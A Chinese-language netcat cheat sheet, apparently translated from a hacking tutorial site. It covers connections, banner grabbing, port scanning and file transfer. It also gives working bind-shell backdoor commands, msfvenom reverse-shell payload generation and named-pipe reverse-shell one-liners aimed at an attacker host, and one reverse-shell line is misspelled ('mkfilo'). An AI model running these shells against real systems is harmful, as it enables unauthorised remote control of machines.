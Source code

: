 ## Netcat综合指南

- Introduction [^1]

- Features

  - 充当简单的TCP / UDP / SCTP / SSL客户端，用于与Web服务器，Telnet服务器，邮件服务器和其他TCP / IP网络服务进行交互。通常，理解服务（解决问题，发现安全漏洞或测试自定义命令）的最佳方法是使用Netcat与其进行交互，可以控制发送的每个字符并查看未经过滤的原始响应
  - 将TCP / UDP / SCTP流量重定向或代理到其他端口或主机。这可以使用简单的重定向（发送到端口的所有内容自动在您预先指定的其他位置中继）或通过充当SOCKS或HTTP代理来完成，以便客户端指定自己的目标。在客户端模式下，Netcat可以通过匿名链接或目标链接到目标认证代理
  - 加密与SSL的通信，并通过IPv4或IPv6传输
  - 充当执行系统命令的网络网关，I / O重定向到网络
  - 充当连接代理，允许两个（或更多）客户端通过第三个（代理）服务器相互连接，这使得隐藏在NAT网关后面的多台机器能够相互通信，并且还可以实现简单的Netcat聊天模式

- Getting start with NC

  - `nc -h`

- Connecting to a Server

  - `nc 192.168.1.12 21`

- Fetching HTTP header

  - 使用netcat来获取有关任何Web服务器的信息。让我们回到之前连接的服务器。
    它还在端口80上运行HTTP服务。因此，我们使用netcat连接到HTTP服务，就像我们之前做的那样。
    现在连接到服务器后，我们使用的选项将为我们提供标头以及在远程服务器上运行的HTTP服务的源代码。
  - `nc 192.168.1.12 80`

- Chatting 

  - Netcat 还可用于在两个用户之间进行聊天。我们需要在聊天之前建立连接。
    要做到这一点，我们将需要两个设备。一个人将扮演发起者的角色，一个人将成为开始对话的倾听者，因此一旦建立了连接，就可以从两端进行通信
  - `nc -lvvp 4444` [^2]
  - `nc 192.168.50.220 4444`

- Creating a Backdoor

  - `nc -l -p 2222 -e /bin/bash` [^3]
  - `nc 192.168.1.35 2222`

- Verbose Mode [^4]

  - `nc 192.168.1.6 21 -v`

- Save Output to Disk

  - `nc 192.168.1.6 21 -v -o /root/output.txt`

- Port Scanning

  - TCP Scan
    - `nc -v -n -z -w 2 192.168.1.6 21-1100 `[^5]
  - TCP Delay Scan
    - `nc -z -v -i 10 192.168.1.6 21-80`
  - UDP Scan
    - `nc -vzu 192.168.1.6 80-90`

- Reverse TCP Shell Exploitation [^6]

  - `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.35 lport=2124 -f exe > /root/Desktop/1.exe`
  - `nc -lvvp 2124`

- Randomize Port 

  - `nc -lv -r`

- File Transfer [^7]

  - ```shell
    #target host
    nc -v -w 30 -p 8888 -l < C:\netcat\output.txt
    #kali
    nc -v -w 2 192.168.1.4 8888 > output.txt
    ```

- Reverse Netcat Shell Exploitation

  - ```shell
    #kali
    msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.35 lport=6666 R 
    nc -lvp 6666
    #将生成的命令在target host上执行
    mkfilo /tmp/hcakruy; nc 192.168.1.35 6666 0</tmp/hcakruy | /bin/sh > /tmp/hcakruy 2>&1; rm /tmp/hcakruy
    ```

  - ```shell
    #target host
    mknod /tmp/backpipe p
    /bin/sh 0</tmp/backpipe | nc 192.168.1.35 443 1>/tmp/backpipe
    #kali
    nc -lvp 443 
    ```

- Banner grabbing

  - `nc -v 192.168.1.2 22`

[原文](https://www.hackingarticles.in/comprehensive-guide-on-netcat/)

---

[^1]: `netcat`或`nc`是一种实用工具，它使用TCP和UDP连接在网络中进行读写
[^2]: `-l` 监听模式、`-vv` 可以使用一个，多一个更详细、`-p `端口
[^3]: 这将在系统上打开一个侦听器，它将命令shell或Linux bash shell传递给连接系统
[^4]: 在netcat中，Verbose是一种可以使用`[-v]`参数启动的模式。现在详细模式生成扩展信息。基本上使用netcat连接到服务器两次，以查看正常模式和详细模式之间的区别，当我们将`[-v]`添加到netcat命令时，它会显示有关连接到服务器时其性能的进程的信息
[^5]: `[-v]`：表示详细模式、`[-n]`：表示仅数字的IP地址、`[-z]`：表示零-I / O模式[用于扫描]、` [-w]`：表示连接超时和最终网络读取
[^6]: 使用`msfvenom`和`netcat`的组合来利用系统。我们将使用`msfvenom`创建有效负载和`netcat`来监听会话
[^7]: 场景：将文件从Windows系统传输到 Linux系统
